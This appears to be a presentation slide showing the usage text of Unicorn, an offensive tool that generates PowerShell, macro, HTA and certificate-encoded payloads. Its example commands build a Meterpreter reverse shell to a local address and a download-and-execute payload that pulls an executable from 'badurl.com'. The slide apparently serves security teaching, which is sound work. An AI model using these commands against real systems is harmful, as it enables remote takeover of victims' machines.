

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec exe=test.exe url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443 macro
HTA Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443 hta
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Help Menu: python unicorn.py --help